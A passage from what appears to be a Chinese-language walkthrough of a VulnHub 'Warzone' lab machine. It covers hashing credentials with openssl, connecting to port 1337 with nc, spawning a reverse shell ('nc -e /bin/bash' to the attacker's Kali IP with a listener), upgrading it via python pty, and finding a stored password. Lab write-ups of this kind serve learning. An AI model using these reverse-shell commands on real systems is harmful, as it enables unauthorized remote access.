 

按照这种方式进行加密，先把`hash`中的`username+password`

`semaphoresignalperson`

```shell
echo -n "semaphoresignalperson" | openssl dgst -sha256
#-n放置换行符
#最终输出结果，hash等于
hash=833ad488464de1a27d512f104b639258e77901f14eab706163063d34054a7b26
```

![](D:\stu\vulnhub\warzone靶场\pic-2\8.jpg)

再进行16进制转换

![](D:\stu\vulnhub\warzone靶场\pic-2\9.jpg)

结果为`383333616434383834363464653161323764353132663130346236333932353865373739303166313465616237303631363330363364333430353461376232360a`

不过这里获取到之后，还不知道有什么用

## 1337端口

之前在`nmap`扫描的时候，对于1337端口就比较特别，尝试浏览器访问，发现无内容，说明并非`http`服务。尝试`nc`连接这个端口，看有无信息，发现有信息

尝试把上面的信息结合起来，输入用户名和密码以及`token`，不过这里的`token`与图片中不符，是`hash`值

![](D:\stu\vulnhub\warzone靶场\pic-2\10.jpg)

提示三种命令可用，那么尝试使用`nc`构造反弹`shell`

在靶机构造`payload`

```shell
nc -e /bin/bash 192.168.1.16 9999
#ip地址为kali的地址
```

不过需要先在`kali`中开启监听

```shell
nc -lvvp 9999
```

![](D:\stu\vulnhub\warzone靶场\pic-2\11.jpg)

使用`dpkg -l | grep python`，查看靶机内有无安装`python`，发现`python3`

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

查看当前目录下的文件，发现一个目录，并非常见目录，进入查看，发现三个文件，其中一个为密码

发现密码`i_hate_signals!`

![](D:\stu\vulnhub\warzone靶场\pic-2\12.jpg)

